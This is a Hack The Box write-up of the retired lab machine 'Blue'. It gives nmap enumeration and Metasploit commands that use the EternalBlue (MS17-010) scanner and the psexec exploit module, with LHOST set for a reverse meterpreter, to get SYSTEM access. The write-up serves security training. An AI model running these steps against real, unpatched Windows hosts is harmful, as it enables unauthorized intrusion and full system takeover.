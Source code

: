 ## **Hack The Box - Blue**

**Creator:** [Ch4p](https://app.hackthebox.com/users/1)

**Difficulty:** Easy

**Link:** [Blue](https://app.hackthebox.com/machines/51)


---


<ins> **Introduction** </ins>

![infocard](/docs/assets/images/HTB/blue/blueinfocard.png)

Blue is an Easy level retired machine on Hack the Box. This machine is running an outdated version of Windows that is vulnerable to [cve-2017-0144](https://nvd.nist.gov/vuln/detail/cve-2017-0144) also known as *Eternal Blue*. This vulnerability affects multiple versions of Windows (specific build numbers for windows 10 and later): Windows Vista, Windows7, Windows Server 2008, Windows 8.1, Windows server 2012, Windows 10, and Windows Server 2016. This was patched in March of 2017 meaning anything still vulnerable to it is pretty out of date. 

In short the *SMBv1* server in Microsoft Windows allows for arbitrary code execution in specifically crafted packets. There is a *Metasploit Frameworks* Auxiliary Module that can scan a system and see if it is vulnerable to Eternal blue. There is also a module to exploit the vulnerability and grant a meterpreter on the unpatched system as the `NT AUTHORITY\SYSTEM` user. Since this is the highest privileged user on any Windows System I will have full access from there.

---


<ins> **Enumeration** </ins>

This is a pretty straightforward machine, still it's good practice to always repeate the first steps so I ran my usual nmap scan to start it off.

`nmap -sV -oA blue_services <target_ip>`

![nmap](/docs/assets/images/HTB/blue/blue01.png)

```
135/tcp msrpc MIcrosofot Windows RPC* 

139/tcp netbios-ssn Microsoft Windows netbios-ssn 

445/tcp Microsoft-ds Microsoft Windows 7 – 10 microsoft –ds (workgroup:WORKGROUP) 

49152/tcp msrpc Microsoft Windows RPC 

49153/tcp msrpc Microsoft Windows RPC 

49154/tcp msrpc Microsoft Windows RPC 

49155/tcp msrpc Microsoft Windows RPC 

49156/tcp msrpc Microsoft Windows RPC 

49157/tcp msrpc Microsoft Windows RPC

Hostname HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows 

```

I used an nmap script scan to further gather some information on that *microsoft-ds* service although I can see from my service scan that it is likely running Windows 7-10.

`nmap -p 445 --script smb-protocols <target_ip>`

![nmap script](/docs/assets/images/HTB/blue/blue02.png)

There I can verify that it is indeed running *SMBv1* meaning it's likely vulnerable to *Eternal Blue*.


---


<ins> **Exploitation with Metasploit** </ins>

Using `msfconsole` to bootup *metasploit* on my system I `search` for *eternal blue* and select the `auxiliary/scanner/smb/smb_ms17_010` module for `use`

```
msfconsole

search eternal blue

use auxiliary/scanner/smb/smb_ms17_010

```

![search eternal blue](/docs/assets/images/HTB/blue/blue03.png)

![use scanner](/docs/assets/images/HTB/blue/blue04.png)

Running `show options` I can see that since the *RPORT* was set to *445* by default all I need to edit is the *RHOSTS* option so that it's set to the *target IP* and *exploit*.

```
show options

set RHOSTS <TARGET_IP>

exploit

```

![set rhosts](/docs/assets/images/HTB/blue/blue05.png)

![exploit](/docs/assets/images/HTB/blue/blue06.png)

I'm now going to use the `exploit/windows/smb/ms17_010_psexec` module from earlier.  
 
*PsExec* is a lightweight *telnet-replacement* developed by Microsoft that allows you to execute processes on remote windows systems using any user's credentials and authenticates over *smb*.

```
use exploit/windows/smb/ms17_010_psexec

show options

```
![change module](/docs/assets/images/HTB/blue/blue07.png)

![show options](/docs/assets/images/HTB/blue/blue08.png)

This one is simple as well. I just need to set the *RHOSTS* to my *target IP* and the *LHOST* to my *host ip* and run the *exploit*.

```
set LHOST <host_ip>

set RHOSTS <target_ip>

exploit

```

![set options2](/docs/assets/images/HTB/blue/blue09.png)


After the exploit runs I'm granted a *meterpreter* and give myself a shell to work with. I run `whoami` to verify that I am the *nt authority/system* user.

![whoami root](/docs/assets/images/HTB/blue/blue10.png)

Since I have the highest level privileges on the system as this user it was as easy as looking around the system for the flags and opening the `user.txt` and `root.txt` files n their respective directories using the `type` command. 
  
![flags](/docs/assets/images/HTB/blue/blue11.png)

![pwned](/docs/assets/images/HTB/blue/bluepwned.png)


---


<ins> **Final Thoughts** </ins>

This machine was overly simple with *metasploit* and a very outdated system, however my *eJPT* certification course had an entire module dedicated to *Eternal Blue* so I wanted to try it for myself.

     
